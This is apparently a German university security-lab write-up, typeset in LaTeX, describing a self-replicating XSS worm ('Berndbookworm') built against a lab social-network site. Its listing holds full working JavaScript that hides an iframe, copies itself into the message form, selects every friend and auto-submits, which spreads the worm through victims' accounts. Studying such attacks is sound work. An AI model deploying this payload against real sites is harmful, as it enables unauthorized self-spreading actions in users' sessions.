 \documentclass[10pt,a4paper]{article}
\begin{document}
Das Listing \ref{berndbookworm} zeigt unsere Version des Berndbookworm. Dabei enthält das Listing die initiale Nachricht. Wir benutzen ein iFrame um die Website \texttt{http://berndbook.seclab.uni-paderborn.de/send.php} mit den Anmeldedaten vom aktuellen Benutzer aufzurufen. Damit dies nicht auffällt verstecken wir den iFrame per CSS Befehlen. Danach laden wir jQuery nach um uns die Arbeit mit den Website Elementen zu vereinfachen. In Zeile 8 fängt unser eigentliches Angriffskript an. Die Funktion \texttt{reproduction} führt die eigentliche Reproduktion aus. Es setzt die selbe Nachricht noch einmal zusammen. Dabei wird der aktuelle Parameter n um eins verringert. Dies sorgt dafür, dass sich das Skript nur \textit{n} mal weiterverbreitet. Anschließend setzt das Skript diese Nachricht in das Formular auf der Unterseite \texttt{send.php} ein. Dann werden alle Checkboxen, die die Freunde repräsentieren, ausgefüllt und das Formular abgeschickt. Damit die leere Nachricht den Benutzern nicht sofort auffällt haben wir einen Text ("CHello my freend!") und ein Bild in die Nachricht eingefügt.

\begin{lstlisting}[caption=Berndbookworm, label=berndbookworm]
CHello my freend!
<img src="https://alcapwn.de/logo.png" />
<iframe src="http://berndbook.seclab.uni-paderborn.de/send.php" name="send_in_a_box" style="visibility:hidden;" width="0" height="0"></iframe>

<script type="text/javascript" src="http://code.jquery.com/jquery-1.10.2.min.js">
</script>

<script type="text/javascript">

function reproduction(n){
	if (n >0){
		reproduction_function = reproduction.toString();
		iframe_string = "CHello my freend!<img src=\"https://alcapwn.de/logo.png\"\/><iframe src=\"http://berndbook.seclab.uni-paderborn.de/send.php\" name=\"send_in_a_box\" style=\"visibility:hidden;\" width=\"0\" height=\"0\"></iframe>";
		jquery_string = "<script type=\"text/javascript\" src=\"http://code.jquery.com/jquery-1.10.2.min.js\"><\/script>";
		script_start = "<script type=\"text/javascript\">";
		function_call = "$('body').attr('onload','reproduction(" + (n-1) + ");');"
		script_end = "<\/script>";
		msg = iframe_string + jquery_string + script_start + reproduction_function + function_call + script_end;
		$('iframe').contents().find('textarea').val(msg);
		$('iframe').contents().find('input[type=checkbox]').click();
		$("iframe").contents().find("input[type=submit]").click()
	}
}

$('body').attr('onload','reproduction(2);');
</script>
\end{lstlisting}
\end{document}
